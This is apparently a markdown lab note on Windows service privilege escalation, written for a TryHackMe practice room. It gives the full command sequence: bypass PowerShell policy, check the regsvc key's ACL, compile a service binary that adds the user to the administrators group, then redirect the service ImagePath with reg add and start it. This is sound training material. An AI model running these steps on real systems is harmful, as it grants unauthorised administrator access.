 # Service escalation
## Registry
* powershell -ep bypass
* Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.
* Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to Kali
Kali
1. Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
3. Copy the generated file x.exe, to the Windows VM.
Windows

1. Place x.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
3. In the command prompt type: sc start regsvc
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

5. Practice: https://tryhackme.com/room/windowsprivescarena
